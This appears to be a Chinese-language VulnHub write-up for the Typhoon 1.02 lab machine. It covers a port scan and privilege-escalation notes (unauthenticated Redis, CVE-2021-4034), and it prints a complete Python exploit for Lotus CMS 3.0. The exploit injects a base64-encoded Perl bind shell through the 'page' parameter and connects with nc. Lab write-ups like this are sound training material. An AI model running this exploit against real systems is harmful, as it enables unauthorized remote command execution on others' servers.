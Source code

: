 +++
title = '0x019 Typhoon 1.02'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCEacdbbff87e00e3b1e7c2b593bc9fdd39截图.png)

这次扫描结果太多了，就不看服务扫描结果了，打眼一看全是高危端口

# 渗透

21端口：

![](/vulnhub_img/WEBRESOURCE1fd2eed0df441ab4c9b5033195fe119c截图.png)

80端口 lotuscms成功getshell，应该还有其他洞，感觉洞很多的样子：

```
# -*- coding: utf-8 -*-
#!/usr/bin/python

import socket
import sys
import time
import os
import base64
import urllib

if len(sys.argv) <= 2:
        print "\n      EXPLOIT - BIND SHELL\n"
        print "   - Remote Command Execution -"
        print "     tested on: Lotus CMS 3.0\n"
        print " Usage:"
        print " ./"+sys.argv[0]+" [TARGET IP] [TCP PORT TO OPEN]"
        print " Example:"
        print " ./"+sys.argv[0]+" 192.168.10.106 4444"
else:
        print "\n      EXPLOIT - BIND SHELL\n"
        print "   - Remote Command Execution -"
        print "     tested on: Lotus CMS 3.0\n"
        print " [*] Generating payload..."

        # Monta o payload
        payload0="perl -MIO -e '$p=fork();exit,if$p;$c=new IO::Socket::INET(LocalPort,"+sys.argv[2]+",Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);system$_ while<>'"
        # Encoda em base64
        payload1 = base64.b64encode(payload0)
        # Junta tudo
        payload2="index');system(base64_decode('"+payload1+"'));#"
        # Encoda URL
        data="page="+urllib.quote(payload2)
        # Calcula o tamanho do payload
        tam = len(data)

        # Monta header + body do request
        request="POST /cms/index.php HTTP/1.1\r\n"
        request+="Host: "+sys.argv[1]+"\r\n"
        request+="User-Agent: Mozilla/5.0\r\n"
        request+="Content-Type: application/x-www-form-urlencoded\r\n"
        request+="Content-Length: "+str(tam)+"\r\n"
        request+="Connection: close\r\n"
        request+="\r\n"
        request+=str(data)

        # Envia o request
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((sys.argv[1],80))
        s.send(request)

        # Exibe o que enviou
        print "\n [*] "+str(len(request))+" bytes sent..."
        print " [*] Getting bind connection...\n"

        # Conecta
        time.sleep(2)
        os.system("nc -vn "+sys.argv[1]+" "+sys.argv[2])

```

![](/vulnhub_img/WEBRESOURCEf0363f514b3370f3c733d384c145ed7d截图.png)

# 提权

![](/vulnhub_img/WEBRESOURCE4295a666d82f90384110925b6e478f06截图.png)

redis未授权应该是有的

![](/vulnhub_img/WEBRESOURCE1d35b284a99f37d5943f82a16dda9360截图.png)

有GCC直接内核提权

CVE-2021-4034

![](/vulnhub_img/WEBRESOURCEff87f9ee0325bd0df0f9d036761e4283截图.png)